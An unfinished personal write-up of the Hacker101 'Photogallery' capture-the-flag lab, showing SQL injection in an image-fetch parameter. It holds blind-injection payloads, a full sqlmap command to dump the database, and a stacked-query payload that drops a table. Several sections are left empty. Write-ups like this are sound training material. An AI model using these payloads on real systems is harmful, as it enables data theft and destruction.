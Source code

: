 # Photogallery

This ctf took me quit a while to figure out. I personally found flag 1 first then flag 0 and I am still working on flag 2. I believe that most people will get flag 1 before flag 0. So i will write up flag 1 first. It's pretty straight forward.

## Flag 1 – SQL Injection

Navigating the website you will notice that there is not a lot to do. We can't buy anything click on anything or comment. Checking out the source code of the website we see that the images are being loaded from the url `/fetch?id=X` (X is a placeholder for a number). Browsing to that url you will see a site with the raw image data. The interesting part however is the url itself. Looking at the url parameter and replacing the value with sth like 2-1 for example shows that the application is vulnerable to sql injection. Great!

### Blind injection
Blind sql injeciton can be used to gain information about the database layout. For example using the following query shows the length of the db_name :

```
.../fetch?id=4 OR LENGTH(database()) = 6
```
from there it is possible to guess the name using queries similar to the following:
```
.../fetch?id=4 or database() LIKE '______'
```
You can replace a single '_' with any sign in order to guess the sign at that position. Once you guessed the correct value you can replace the next underscore. The underscore characters serve as a wildcard for a single character. It is important to use 6 underscores since that is the length of the databse name.

After obtaining the database name the following query can be used to find out the number of tables in the database:
```
.../fetch?id=1 AND (SELECT Count(*) FROM information_schema.tables WHERE table_schema=database())=2
```

After that i went after the table names. There is a great tutorial on doing this [here](https://delayma.wordpress.com/2019/01/09/magical-image-gallery-1-3-hacker-101-ctf/).


The db layout looks like this :
DB Layout:
...db_name: "level5" 
...num_of_tables : 2
...tables_names : albums, photos

For the extraction of the data i used sqlmap. I dumped the entire database using the following commands:
```
```

You will find flag 1 in the entry for the invisible kitty.


## Flag 0 – SQL Injection



### Union based injection


## WIP



To dump it all :
sqlmap -u "http://35.237.57.141:5001/b09a24aa14/fetch?id=2" --method GET --dump -D level5 -T photos -p id --code 200 --skip-waf --random-agent --threads 10 -o

Flag 2 – Stacked Queries
Drop a table: (breaks app)
http://35.196.135.216/5ddb86c66f/fetch?id=1;%20DROP%20Table%20photos



